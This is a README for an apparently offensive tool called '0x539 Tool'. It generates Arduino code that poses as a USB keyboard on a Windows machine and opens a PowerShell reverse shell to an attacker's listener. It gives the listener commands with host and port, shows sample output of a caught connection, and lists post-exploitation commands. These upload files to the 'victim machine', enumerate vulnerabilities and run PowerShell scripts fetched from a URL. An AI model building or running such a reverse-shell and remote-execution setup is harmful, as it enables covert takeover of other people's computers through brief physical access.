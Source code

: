 # 0x539 Tool

This project is to connect a windows maching using an arduino to a listening server using a port and a host through TCP.
 
*Note: A video tutorial will be added on the main* [Lear Hacking](https://www.youtube.com/channel/UCGj2tNcFld-_tCZLSkFe4ww) *Youtube channel soon!*

## Getting Started

Once the Arduino is plugged to the windows machine you'll have a powershell of that user.

### Prerequisites

To complete this you will first need to install the [Aduino IDE](https://www.arduino.cc/en/main/software), and a list of python packages.


```
pwn, argparse
```

### Installing

* Install the Arduino IDE.
* Install python on Linux:
```
sudo apt update
sudo apt-get install python3.8
```
* Install pwn

```
pip install pwn
# or
python3 pip install pwn
```

## Running the tool

After cloning this repository into your linux machine.

### Run the script listener

To see the help menu of the tool listener:

```
python3 listen-usb.py -h
```
```
usage: listen-usb.py [-h] [-debug] --lport LPORT --lhost LHOST --keyboard
                     KEYBOARD

0x539 tool. A tool to connect to thepowershell reversed shell from arduino mini
pro.

optional arguments:
  -h, --help           show this help message and exit
  -debug               debug mode will keep the cmd window open"
  --lport LPORT        port example: 4444
  --lhost LHOST        host example: attackerwebsite.com (or an ip
                       198.23.44.132)
  --keyboard KEYBOARD  keyboard example: azerty (or qwerty)
```


### Example:

Running this next command will generate an Arduino C code, which is the exploit that gonna be uploaded to the Arduino (Im using Arduino pro mini atmega32u4).

```
python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
```
This will keep listening on the specified port and generate a new file called arduino_qwerty.c .
```
# fist terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9001 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9001: Done
[┐] Waiting for connections on 0.0.0.0:9001

```
```
# second terminal
kali@kali:~/Documents/tools/github-proj/usb-reverse$ ls
arduino_qwerty.c  exploits  listen-usb.py  README.md
```
Next thing to do is compile the Arduino c file in the Arduino IDE mentioned earlier, im not gonna go through that cause there's a plenty of tutorials out there to compile an Arduino c code and upload, so just google that, or check this videos playlist [Arduino Workshop - Chapter One - Hello World Example](https://www.youtube.com/watch?v=Bz_s3D96C5c&list=PLPK2l9Knytg5s2dk8V09thBmNl2g5pRSr&index=8).

Now once you plug in the Arduino on the usb port, you will be connected to the tool

```
kali@kali:~/Documents/tools/github-proj/usb-reverse$ python3 listen-usb.py --lport 9003 --lhost 192.168.183.20 --keyboard qwerty
[+] Creating file: arduino_qwerty.c
[+] File created check it on the current path
[+] Listening..
[+] Trying to bind to 0.0.0.0 on port 9003: Done
[+] Waiting for connections on 0.0.0.0:9003: Got connection from 192.168.183.1 on port 58629

      ___   ___   ___  _____   ____     ___
     / _ \  \  \ /  / | ____| |___ \   / _ \
    | | | |  \  V  /  | |__     __) | | (_) |
    | | | |   >   <   |___ \   |__ <   \__, |
    | |_| |  /  .  \   ___) |  ___) |    / /
     \___/  /__/ \__\ |____/  |____/    /_/

     Tool.

!0x53O>
```

Now that you're connected to the tool, you can interact with the powershell and use the tool commands.

## Tool brief

Type help to get the help menu

```

commands:
    ps              connect to powershell
    upload          download file
    enumerate       enumerate windows vulnerabilities
    urlexec         execute a powershell script from a link
    help            open this help menu
    exit            quit this tool
```

### ps command
Gives you a prompt to powershell on that windows.

### upload command
Uploads a file to the victim machine.
```
usuage:
	upload <link> <filename>
example:
	uplaod https://raw.githubusercontent.com/absolomb/WindowsEnum/master/WindowsEnum.ps1 windowsEnum.ps1
```
### enumerate command
Enumerate the windows privileges and informations.

### urlexec
Execute a powershell script from a url

## Creator

* This tool was Created by [l0x539](https://0x539.co).

